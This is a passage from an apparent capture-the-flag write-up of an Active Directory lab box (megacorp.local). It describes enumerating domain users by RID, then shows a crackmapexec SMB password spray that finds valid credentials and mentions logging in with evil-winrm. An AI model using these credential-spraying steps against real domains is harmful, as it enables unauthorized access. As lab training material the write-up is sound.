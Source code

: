 There are a lot of groups starting at 500, so I changed it up and started at 1000 instead, which is where user IDs should start. Because this was taking so long, everytime I found a valid user I would test the credentials immediately. Eventually, it found these users:

```
...
DnsUpdateProxy
svc-nas
nope!
Privileged IT Accounts
nope!
nope!
nope!
nope!
tushikikatomo
andrew
lana
...
```

The `tushikikatomo` user had valid credentials!&#x20;

```
$ crackmapexec smb megacorp.local -u tushikikatomo -p passwords
SMB         megacorp.local  445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1
```

I was then able to `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Basic Enumeration + Bloodhound
